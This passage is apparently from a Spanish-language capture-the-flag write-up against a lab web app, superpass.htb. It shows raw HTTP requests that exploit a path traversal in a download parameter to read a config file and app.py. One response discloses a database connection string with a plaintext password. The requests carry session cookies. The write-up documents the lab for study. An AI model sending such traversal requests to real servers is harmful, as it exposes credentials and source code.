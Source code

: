 ~~~http
2023/02/28 16:23:58 [error] 1004#1004: *18 open() "/app/app/superpass/static/webfonts/josefinsans.ttf" failed (2: No such file or directory), client: 10.10.14.40, server: superpass.htb, request: "GET /static/webfonts/josefinsans.ttf HTTP/1.1", host: "superpass.htb", referrer: "http://superpass.htb/static/css/josefinsans.css"

~~~

Consultamos el archivo  /app/config_prod.json

~~~http
GET /download?fn=../../app/config_prod.json HTTP/1.1
Host: superpass.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwljk1qAzEMha9itA7Fsj1jK6fovoQgyXJmYNqE8WQVcve6dPV4vB--F1zbxn2xDuevF7hjCHxb73wzOMHnZtzNbfebW3_ccXesOkJ3LGt3j9H5gMv7chonu_UFzsf-tOHWCmdolclMov5tsNWk1RsFZNFZLRfzTJVa8T5Q0OgxaFHB1LgIVwokFqcUaKY8kbRM1ihTkjhJZqyKcdaSMZhQRYqoUubSms_JWxLyA__67Lb_06CH9y8M9kfe.ZAX9Ow.fH2yxQcz3IpceX-8l2pwRttG9Uk; remember_token=11|a91ce8f326a4f9f0a8529318e8bb45fb40d8b5747b727b7815fddf9f7d74fd4414370eed6fdcd69074041975f71e52a5cbe305cfc06715ace1b48a7238f3841e
Connection: close
~~~

~~~ bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 06 Mar 2023 17:15:30 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 88
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
~~~

Código fuente de app.py

~~~http
GET /download?fn=../../app/app/superpass/app.py HTTP/1.1
Host: superpass.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwljk1qAzEMha9itA7Fsj1jK6fovoQgyXJmYNqE8WQVcve6dPV4vB--F1zbxn2xDuevF7hjCHxb73wzOMHnZtzNbfebW3_ccXesOkJ3LGt3j9H5gMv7chonu_UFzsf-tOHWCmdolclMov5tsNWk1RsFZNFZLRfzTJVa8T5Q0OgxaFHB1LgIVwokFqcUaKY8kbRM1ihTkjhJZqyKcdaSMZhQRYqoUubSms_JWxLyA__67Lb_06CH9y8M9kfe.ZAX9Ow.fH2yxQcz3IpceX-8l2pwRttG9Uk; remember_token=11|a91ce8f326a4f9f0a8529318e8bb45fb40d8b5747b727b7815fddf9f7d74fd4414370eed6fdcd69074041975f71e52a5cbe305cfc06715ace1b48a7238f3841e
Connection: close
~~~
